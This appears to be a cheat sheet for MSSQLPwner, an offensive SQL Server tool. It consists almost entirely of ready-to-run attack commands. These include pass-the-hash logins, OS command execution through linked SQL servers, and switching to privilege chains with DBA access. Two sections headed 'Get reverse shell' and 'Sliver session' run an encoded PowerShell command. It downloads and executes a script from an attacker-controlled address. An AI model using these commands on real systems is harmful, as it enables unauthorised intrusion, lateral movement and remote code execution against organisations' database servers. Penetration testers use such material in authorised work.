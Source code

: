 # MSSQLPwner

### 1) Try and check permissions as different users - PTH and creds
   
    mssqlpwner domain.com/domainuser:8b1B0BzGvj9J@10.10.100.15 -windows-auth interactive enumerate
    mssqlpwner ./Administrator@10.10.100.15 -hashes ':ffffffffffffffffffffffffffffffff' -windows-auth interactive enumerate
    mssqlpwner domain.com/machine01\$@10.10.100.15 -hashes ':ffffffffffffffffffffffffffffffff' -windows-auth interactive enumerate


### 2) For local authentication

    mssqlpwner localuser:password@10.10.200.130 interactive enumerate


### 3) Run command on the link

    mssqlpwner localuser:password@10.10.200.130 -link-name SQL01 exec hostname
    mssqlpwner localuser:password@10.10.200.130 -link-name SQL02 exec hostname
    mssqlpwner localuser:password@10.10.200.130 -link-name SQL03 exec hostname
    mssqlpwner dev.domain.com/machine01\$@10.10.200.131 -hashes ':ffffffffffffffffffffffffffffffff' -windows-auth -link-name SQL04 exec hostname


### 4) Get reverse shell

    mssqlpwner localuser:password@10.10.200.130 -link-name SQL03 exec 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=='


### 5) Use specific link

    mssqlpwner -hashes ':ffffffffffffffffffffffffffffffff' ./Administrator@10.10.200.131 -windows-auth -link-name sql03 enumerate interactive


### 6) Get the chain list accessible

    get-chain-list


### 7) Set chain to that of dba access on a linked machine

    set-chain c99e9ea1-6f06-4f85-85b0-4b65d11d4a3a


### 8) Run command on the selected chain

    exec "whoami /all"


### 9) Sliver session

    exec 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=='
